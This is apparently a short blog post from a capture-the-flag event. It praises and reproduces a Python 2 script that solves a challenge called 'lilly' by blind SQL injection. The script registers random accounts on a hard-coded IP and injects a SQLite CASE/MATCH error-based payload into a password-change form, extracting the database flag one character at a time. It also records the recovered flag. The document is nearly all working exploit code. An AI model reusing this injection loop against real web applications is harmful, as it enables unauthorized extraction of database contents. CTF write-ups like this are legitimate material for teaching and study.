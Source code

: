 ```yaml
---
title: lilly
author: tank96a
layout: post
categories:
  - article
tags:
  - sqli
---
```


##lilly

非常不错的爆破脚本

{% highlight python %}
import requests, random, string

# password='=(select  CASE WHEN length(flag)=26 THEN  1 ELSE 1 MATCH '(' END from flag)='
# password='=(select  CASE WHEN substr(flag, 1, 1)='1' THEN  1 ELSE 1 MATCH '(' END from flag)='

# charset = string.digits + "_" + string.letters + "{}"
charset = string.printable
# charset = [chr(i) for i in range(256)]

sql_template = "'=(select  CASE WHEN substr(flag, %d, 1)='%s' THEN  1 ELSE 1 MATCH '(' END from flag)='"
s = requests.Session()

#finally we get the flag = '0CTF{R0t_?_S8rRy_1_doNt_N}'
flag=''

while 1:
	# gen creds
	creds = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(10))
	
	data = {'username': creds,'password':creds, 'email':creds}
	# register
	r = s.post("http://202.112.28.113:5000/register", data=data)
	if r.text.find("Now You can log in:") == -1:
		continue
		
	# login
	r = s.post("http://202.112.28.113:5000/login", data=data)
	if r.text.find("Modify password") == -1:
		continue
	
	# inject
	i = len(flag) + 1
	print i, 
	for c in charset:
		if c == '-' or c == '/':
			# blacklisted shit !
			continue
		
		data['password'] = sql_template % (i, c)
		r = s.post("http://202.112.28.113:5000/modify", data=data)

		if r.text.find("HAHAHA,YOUR PASSWORD HAS BEEN UPDATED") != -1:
			flag += c
			print repr(flag)
			break
		if r.text.find("HACK") != -1:
			# find blacklisted chars
			print c# - / 
{% endhighlight %}
